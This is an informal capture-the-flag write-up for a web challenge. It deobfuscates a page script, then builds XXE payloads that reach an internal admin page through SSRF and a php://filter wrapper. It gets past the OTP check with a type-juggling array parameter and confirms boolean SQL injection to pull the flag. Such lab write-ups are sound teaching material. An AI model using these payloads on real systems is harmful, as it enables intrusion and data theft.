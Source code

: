 WriteUp

Task starts with basic index page.

We have only one field under control and restricted page. no cookies, no strange headers.

/robots.txt has one entery with docker log where we could get the hostname.

Inspection of sources bring us strange obfuscated script:

    <script type="text/javascript"> var _0x2396=["","\x3C\x3F\x78\x6D\x6C\x20\x76\x65\x72\x73\x69\x6F\x6E\x3D\x22\x31\x2E\x30\x22\x20\x65\x6E\x63\x6F\x64\x69\x6E\x67\x3D\x22\x55\x54\x46\x2D\x38\x22\x3F\x3E","\x3C\x72\x6F\x6F\x74\x3E","\x3C\x65\x6D\x61\x69\x6C\x3E","\x76\x61\x6C","\x23\x65\x6D\x61\x69\x6C","\x3C\x2F\x65\x6D\x61\x69\x6C\x3E","\x3C\x2F\x72\x6F\x6F\x74\x3E","\x6F\x6E\x72\x65\x61\x64\x79\x73\x74\x61\x74\x65\x63\x68\x61\x6E\x67\x65","\x72\x65\x61\x64\x79\x53\x74\x61\x74\x65","\x6C\x6F\x67","\x72\x65\x73\x70\x6F\x6E\x73\x65\x54\x65\x78\x74","\x69\x6E\x6E\x65\x72\x48\x54\x4D\x4C","\x65\x72\x72\x6F\x72\x4D\x65\x73\x73\x61\x67\x65","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64","\x50\x4F\x53\x54","\x70\x72\x6F\x63\x65\x73\x73\x2E\x70\x68\x70","\x6F\x70\x65\x6E","\x73\x65\x6E\x64"];function XMLFunction(){var _0xca21x2=_0x2396[0]+ _0x2396[1]+ _0x2396[2]+ _0x2396[3]+ $(_0x2396[5])[_0x2396[4]]()+ _0x2396[6]+ _0x2396[7];var _0xca21x3= new XMLHttpRequest();_0xca21x3[_0x2396[8]]= function(){if(_0xca21x3[_0x2396[9]]== 4){console[_0x2396[10]](_0xca21x3[_0x2396[9]]);console[_0x2396[10]](_0xca21x3[_0x2396[11]]);document[_0x2396[14]](_0x2396[13])[_0x2396[12]]= _0xca21x3[_0x2396[11]]}};_0xca21x3[_0x2396[17]](_0x2396[15],_0x2396[16],true);_0xca21x3[_0x2396[18]](_0xca21x2)} </script>

After some magic it should be readeble:

    <script type="text/javascript"> var xml = '<?xml version="1.0" encoding="UTF-8"?><root><email>val#email</email></root>'; var xmlhttp = new XMLHttpRequest(); xmlhttp.onreadystatechange = function () { if(xmlhttp.readyState == 4){ console.log(xmlhttp.readyState); console.log(xmlhttp.responseText); document.getElementById('errorMessage').innerHTML = xmlhttp.responseText; } } xmlhttp.open("POST","process.php",true); xmlhttp.send(xml); </script>

Woah! it's frontend script for creating xml! burp could show us thats xml is fully controlled.

PFFFF easiest web in my life! only one XXE and flag is mine!

Suka blyad'! no LFI! where is my flag? admin allo!

Once LFI is not working try SSRF more that, we have seen admin area. its accessible from internal web.

Modifying a little xml we get a payload

    <?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM "http://127.0.0.1:20005/admin.php">]><root><email>&test;</email></root>

It's not working! AUGHHHH

STOP! docker log sad us about dockerhost! let's try again!!

    <?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM "http://web/admin.php">]><root><email>&test;</email></root>

It's not working!! oh god why??? and god sad us: HTML familiar with XML and breaks in in processing, encode it!

    <?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM "php://filter/convert.base64-encode/resource=http://web/admin.php">]><root><email>&test;</email></root>

OOOOOOOMG we got an admin pannel! but WTF, its a login pannel oh!

    <form action="" method="get"> <label>UserName :</label><input type="text" name="username" /><br /><br /> <label>Password :</label><input type="password" name="password" /><br /><br /> <label>otp :</label><input type="otp" name="otp" /><br /><br /> <input type="submit" value=" Submit " /><br /> </form>

lets try to login, with a get query!

    <?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM "php://filter/convert.base64-encode/resource=http://web/admin.php?username=1&password=2&otp=3">]><root><email>&test;</email></root>

any data in query returns us "BAD OTP"

php is not a php if it is not comparasion bugs! rare type of type juggling brings us a luck!

    <?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM "php://filter/convert.base64-encode/resource=http://web/admin.php?username=1&password=2&otp[]=3">]><root><email>&test;</email></root>

just a moment! wtf is not working again! [] are XML special chars and we have to encode them with url encode

    <?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM "php://filter/convert.base64-encode/resource=http://web/admin.php?username=1&password=2&otp%5B%5D=3">]><root><email>&test;</email></root>

luck again! we got "user doesn't exists"

attempts to bruteforce are usless...

maybe its SQLI? we all love sqli!!!!!

    ' or 1=1 — returned "exists" ' or 1=0 — returned "not exists"

boolean based SQLI confirmed!

now u have 3 ways: try to install sqlmap (its really hard cuz via XXE and sqlmap just crashes) write a proxy for sqlmalp to needed parameter do it manually (rly first solve for this task got a flag by hands, second too)

surprise! there is one more column 'secrets'

flag stored there!
